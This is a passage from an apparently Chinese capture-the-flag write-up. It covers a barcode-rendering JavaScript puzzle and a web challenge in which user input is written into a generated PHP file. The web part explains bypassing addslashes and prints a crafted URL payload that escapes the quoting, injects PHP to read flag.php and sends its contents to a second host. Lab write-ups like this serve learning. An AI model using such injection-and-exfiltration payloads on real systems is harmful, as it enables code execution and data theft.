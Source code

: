 ```html
        for (var linecount = 1; linecount < str.length; linecount++) {
            for (var i = 0; i < str.length; i++) {
                var ele = document.createElement("div");
                ele.style.position = "absolute";
                ele.style.width = width + 'px';
                ele.style.height = width + 'px';
                ele.style.left = ((i % linecount) * width) + 'px';
                ele.style.top = (topx + Math.floor(i / linecount) * width) + 'px';
                if (str[i] == '0') {
                    ele.className = "white";
                } else {
                    ele.className = "black";
                }
                containter.appendChild(ele);
            }
            if (linecount == str.length-1 && onecnt > 0) {
                linecount--;
                onecnt--;
                topx += width;
            } else {
                topx += (Math.floor(str.length / linecount) * width + 50);
            }
        }
    </script>
</body>

</html>
```

没有图片符合样子的，好奇怪。。。这道题卡了好久，抱着死马当活马医的心态加宽高度，作为条形码试试。。。

{% asset_img image066.png 就是一个条形码 %}

解决了这道题，太好了。

# 【WEB】Web

上来网页给了一个提示

{% asset_img image020.png 首页提示 %}

访问 **re.php** ，网页给出了该页的php代码。

{% asset_img image022.png re.php %}

计大意是在 tmp 目录下生成一个随机字符的 php 名，写入了$shell=’’;的句子，然后输入的 shell 参数加入到单引号内，根据提示是要查看 flag.php。关键点是绕过 addslashes 这个函数。

网上查看了一番，可以用宽字符或双斜线匹配来绕过。但是不知道为什么php的网页回显被关闭了（后来才知道，$shell是要执行的shell命令，不是php命令），于是考虑用发送网络请求获取flag.php的信息。

构造的参数如下：

```
http://10.105.42.5:44445/re.php?shell=../flag.phphttp://10.109.33.193/index.php?s=cdef%5c%27;print%20file_get_contents(substr($shell,11,37).urlencode(file_get_contents(substr($shell,0,11))));//
```
